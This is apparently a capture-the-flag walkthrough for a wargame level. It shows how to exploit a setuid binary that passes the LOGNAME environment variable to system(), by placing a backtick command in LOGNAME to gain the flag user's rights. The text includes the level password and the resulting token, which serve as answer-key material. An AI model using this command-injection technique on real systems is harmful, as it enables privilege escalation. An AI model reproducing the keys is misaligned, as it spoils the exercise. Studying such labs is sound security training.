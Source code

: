 `su level07 -> wiok45aaoguiboiki2tuin6ub`

We find an executable that prints: `level07`, and is executed by flag07 because of the 's' permission seen in ll.

```bash
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff774, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                             = 2007
geteuid()                                                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
getenv("LOGNAME")                                                                     = "level07"
asprintf(0xbffff6c4, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280)                   = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                = 0
+++ exited (status 0) +++
```

We first notice that this executable `getenv("LOGNAME")`, so if we modify LOGNAME it should change what's printed.

```bash
$ export LOGNAME='flag07'
$ ./level07
flag07
```

Let's try injecting some code to execute in this variable.

```bash
$ export LOGNAME='`getflag`'
$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```env

